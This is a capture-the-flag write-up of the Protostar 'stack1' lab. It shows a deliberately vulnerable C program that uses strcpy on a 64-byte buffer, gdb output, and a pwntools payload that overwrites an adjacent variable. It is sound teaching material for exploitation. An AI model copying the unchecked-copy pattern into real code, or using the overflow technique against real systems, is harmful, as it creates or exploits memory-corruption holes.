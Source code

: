 source code:

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

In this one, you have to set the variable `modified` to a specific value `0x61626364`. 

Check the assembly code, find that `modified` is `esp+0x5c`. 

```
(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Starting program: /home/user/stack1 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Breakpoint 1, 0x080484ab in main (argc=1094214465, argv=0x64413963) at stack1/stack1.c:18
18	stack1/stack1.c: No such file or directory.
	in stack1/stack1.c

(gdb) x $esp+0x5c
0xbffff5ec:	0x63413163
```

Using pattern generator (https://wiremask.eu/tools/buffer-overflow-pattern-generator/), length = 200, regisiter value = `0x63413163`, offset is calculated: `64`.

Now, the payload can be 

```python
>>> from pwn import *
>>> p32(0x61626364)
b'dcba'
>>> b'A'*64 + b'dcba'
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAdcba'
```

```shell
user@protostar:~$ ./stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAdcba
you have correctly got the variable to the right value
```